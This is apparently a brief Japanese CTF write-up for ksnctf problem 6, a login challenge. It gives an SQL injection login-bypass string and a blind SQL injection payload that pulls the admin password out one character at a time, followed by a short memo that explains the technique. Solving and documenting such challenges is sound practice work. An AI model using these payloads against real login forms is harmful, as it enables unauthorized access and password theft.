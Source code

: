 ### 問題6 参考サイト
- [問題](https://ksnctf.sweetduet.info/problem/6)
- [解説](https://linuxnosusume.blogspot.com/2017/12/ksnctf-6-login.html)

### 解法

1. 以下をID欄に入力  
`' OR 1=1 --`
2. 以下をID欄に入力  
`admin'  AND SUBSTR((SELECT pass FROM user WHERE id='admin'),1,1) = 'F'--`
### メモ
**ブラインドSQLインジェクション**  
挿入したSQLに対する応答ページの違いから、データベース管理システムに関する情報（実行ユーザーやテーブル名など）を盗み出す
